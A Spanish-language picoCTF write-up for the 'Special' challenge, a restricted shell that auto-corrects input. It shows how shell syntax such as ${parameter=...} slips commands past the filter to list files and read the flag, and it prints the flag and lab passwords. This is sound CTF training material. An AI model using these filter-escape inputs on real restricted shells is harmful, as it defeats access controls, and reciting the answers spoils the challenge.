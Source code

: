 ### Descripción
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.
Additional details will be available after launching your challenge instance.

Start your instance to see connection details.`ssh -p 58556 ctf-player@saturn.picoctf.net`The password is `af86add3`

Hints:
1. Experiment with different shell syntax


```
Server: saturn.picoctf.net
Port: 63269
Username: picoplayer 
Password: 5wf1w1hVxt
```
### Solución
Con Webshell

```
Sebas115-picoctf@webshell:~$ ssh -p 49962 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:49962 ([13.59.203.175]:49962)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:16: [hashed name]
    ~/.ssh/known_hosts:18: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:49962' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ((ls))
((ls)) 
blargh
Special$ ((cd)) < blargh 
((cd)) < large 
sh: 1: cannot open large: No such file
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cat blargh}
${parameter=cat blargh} 
cat: blargh: Is a directory
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt} 
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_6a2763f6}

```


picoCTF{5p311ch3ck_15_7h3_w0r57_6a2763f6}

### Notas adicionales


### Referencias
https://webshell.picoctf.org/





